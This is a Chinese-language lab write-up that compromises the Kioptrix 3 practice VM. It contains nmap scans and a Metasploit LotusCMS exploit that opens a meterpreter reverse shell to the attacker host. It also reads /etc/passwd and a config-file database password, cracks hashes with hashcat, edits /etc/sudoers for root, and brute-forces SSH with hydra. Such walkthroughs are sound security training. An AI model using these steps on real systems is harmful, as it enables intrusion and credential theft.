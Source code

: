 打开虚拟机，和攻击机在同一个网段

### 信息收集
#### IP发现
`arp-scan 192.168.159.0/24`和`nmap -sn 192.168.159.0/24`扫描，得到192.168.159.131的目标IP

#### 服务探测
`nmap -sT -sV -Pn -p 1-65535 192.168.159.131`

得到

```
host             port  proto  name  state  info
----             ----  -----  ----  -----  ----
192.168.159.131  22    tcp    ssh   open   OpenSSH 4.7p1 Debian 8ubuntu1.2 protocol 2.0
192.168.159.131  80    tcp    http  open   Apache httpd 2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
```

#### web发现
直接访问发现有表单，web可以测试，登录界面是LotusCMS的字样，估计web上有漏洞

### 漏洞分析
```
searchsploit openssh 4.7
searchsploit httpd 2.2
searchsploit php 5.2
searchsploit lotuscms
```

排除没有PoC的不容易利用的漏洞后，有一些可能可以利用的点
```
LotusCMS 3.0 - 'eval()' Remote Command Execution (Metasploit)  | exploits/php/remote/18565.rb
```

Web上可能有一些其他漏洞

ssh可以尝试暴破

### 漏洞利用
```
msf5 auxiliary(scanner/mysql/mysql_version) > search lotuscms

Matching Modules
================

   #  Name                              Disclosure Date  Rank       Check  Description
   -  ----                              ---------------  ----       -----  -----------
   1  exploit/multi/http/lcms_php_exec  2011-03-03       excellent  Yes    LotusCMS 3.0 eval() Remote Command Execution


msf5 auxiliary(scanner/mysql/mysql_version) > use exploit/multi/http/lcms_php_exec
msf5 exploit(multi/http/lcms_php_exec) > set RHOST 192.168.159.131
RHOST => 192.168.159.131.
msf5 exploit(multi/http/lcms_php_exec) > options

Module options (exploit/multi/http/lcms_php_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.159.131  yes       The target address range or CIDR identifier
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   URI      /lcms/           yes       URI
   VHOST                     no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic LotusCMS 3.0


msf5 exploit(multi/http/lcms_php_exec) > set uri /
uri => /
msf5 exploit(multi/http/lcms_php_exec) > run

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Using found page param: /index.php?page=index
[*] Sending exploit ...
[*] Sending stage (38247 bytes) to 192.168.159.131
[*] Meterpreter session 11 opened (192.168.159.128:4444 -> 192.168.159.131:37516) at 2019-09-26 15:22:58 +0800

meterpreter > pwd
/home/www/kioptrix3.com
meterpreter > whoami
[-] Unknown command: whoami.
```

使用msf的内置EXP直接获取了shell

### 后渗透利用
发现`uname -a`和`whoami`命令没办法使用，可能对这个账号有很多限制

查看了`/etc/passwd`，原来用户的shell应该是/bin/sh，并不是bash，顺便发现了两个非root外可以用bash的用户

```
loneferret:x:1000:100:loneferret,,,:/home/loneferret:/bin/bash
dreg:x:1001:1001:Dreg Gevans,0,555-5566,:/home/dreg:/bin/rbash
```

使用`getuid`和`sysinfo`可以获取当前用户和系统信息

```
meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : Kioptrix3
OS          : Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686
Meterpreter : php/linux
```

用searchsploit查看2.6.24版本的内核提权漏洞，看起来太多，而且当前的shell的gcc无法使用，暂时不管

www-data的用户目录就是web目录，查看有没有数据库配置文件

```
$ meterpreter > search -d . -f *config*
Found 3 results...
    ./kioptrix3.com/data\config (4096 bytes)
    ./kioptrix3.com/data/modules/Blog/data\config.txt (369 bytes)
    ./kioptrix3.com/gallery\gconfig.php (1440 bytes)
```

查看gconfig.php可以看到数据库密码
```
$GLOBALS["gallarific_mysql_server"] = "localhost";
$GLOBALS["gallarific_mysql_database"] = "gallery";
$GLOBALS["gallarific_mysql_username"] = "root";
$GLOBALS["gallarific_mysql_password"] = "fuckeyou";
```

但是当前用户不能使用mysql客户端，只能试试web上有没有sql注入

扫描器一扫，获取了phpmyadmin的路径，试了刚才找到的数据库密码，可以直接进入

这个时候查询各个表，发现了之前`/etc/passwd`里两个用户的信息
```
dreg 	0d3eccfb887aabd50f243b3f155c0f85
loneferret 	5badcaf789d3d1d09794d8f021f40f0e
```

使用hashcat尝试碰撞hash
```
$ hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/fasttrack.txt -o pass.txt --force
```

碰撞出来loneferret的密码为starwars，用ssh成功登录

```
Last login: Sat Apr 16 08:51:58 2011 from 192.168.1.106
loneferret@Kioptrix3:~$ ls
checksec.sh  CompanyPolicy.README
loneferret@Kioptrix3:~$ cat CompanyPolicy.README 
Hello new employee,
It is company policy here to use our newly installed software for editing, creating and viewing files.
Please use the command 'sudo ht'.
Failure to do so will result in you immediate termination.

DG
CEO
loneferret@Kioptrix3:~$ sudo ht
Error opening terminal: xterm-256color.
loneferret@Kioptrix3:~$ export TERM=xterm
loneferret@Kioptrix3:~$ sudo ht
```

进入ht的界面后可以使用ALT操作菜单，选择/etc/sudoers文件，在loneferret的后面加上`/bin/sh`

```
loneferret ALL=NOPASSWD: !/usr/bin/su, /usr/local/bin/ht, /bin/sh
```

之后退出
```
loneferret@Kioptrix3:~$ sudo /bin/bash
root@Kioptrix3:~# whoami
root
```

### 其他
在root目录下发现了Congrats.txt，说了两个漏洞，一个是https://www.exploit-db.com/exploits/15891，一个是https://www.exploit-db.com/exploits/17083

可以用SQL注入获取用户名，然后用ht提权

除此之外，web目录还有任意文件读写漏洞，可以获取/etc/passwd，从而得到用户名

然后ssh在得知用户名之后可以直接暴破
```
hydra -l loneferret -P /usr/share/wordlists/fasttrack.txt 192.168.159.131 ssh -t 4
```

可以得到密码starwars
